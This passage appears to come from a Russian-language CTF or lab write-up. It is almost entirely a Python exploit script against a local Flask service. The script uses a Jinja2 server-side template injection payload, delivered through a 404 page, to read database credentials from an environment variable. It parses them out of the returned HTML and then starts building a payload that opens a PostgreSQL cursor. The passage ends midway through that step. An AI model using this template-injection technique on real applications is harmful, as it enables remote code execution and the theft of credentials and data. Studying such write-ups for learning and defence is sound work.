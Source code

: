 Напишем эксплойт, который посредством найденной уязвимости будет взаимодействовать с базой данных:

```python
import requests
from urllib.parse import urlparse
from bs4 import BeautifulSoup


# Ссылка на сервис
url = "http://localhost:1337"

# Базовый payload, который возвращает данные для подключения к БД
payload__postgres_creds = '{{config.__class__.from_envvar.__globals__.__builtins__.__import__("os").environ.get("POSTGRES_CONNECT")}}'


# Функция, которая добавляет payload к url и возвращает результат
def triggering_ssti(url, payload):
    response = requests.get(url + "/" + payload)

    # Не забываем, что возможность исполнять код у нас появляется толькопри открытии страницы с 404 ошибкой
    if response.status_code == 404:
        return response.text
    else:
        return "[+] 200 | This path exists"


# Вызываем функцию с целью получения данных для входа.
html__page_with_creds = triggering_ssti(url=url, payload=payload__postgres_creds)


# Функция triggering_ssti() возвращает исходный html-код страницы, поэтому далее парсим сами данные, которые вернулись благодаря payload__postgres_creds
def creds_parser(page):
    soup = BeautifulSoup(page, "html.parser")

    # Выделяем строку с параметрами
    creds_string = soup.find_all("h1")[1].text.strip()[1:-len(" not found!")]

    # Парсинг отдельных данных
    string = urlparse(creds_string)

    # Выделяем данные из полученного ранее кортежа
    dbname = string.path[1:]
    user = string.username
    password = string.password
    host = string.hostname
    port = string.port

    return f'dbname={dbname} user={user} password={password} host={host} port={port}'


# Строка, которая необходима в дальнейшем для подклбчения
connection_string = creds_parser(page=html__page_with_creds)
#print(connection_string)


# Формируем главный payload

# Для начала активируем "курсор" для БД, который позволит нам исполнять SQL-запросы
cursor_payload = f'config.__class__.from_envvar.__globals__.__builtins__.__import__("psycopg2").connect("{connection_string}").cursor()'

```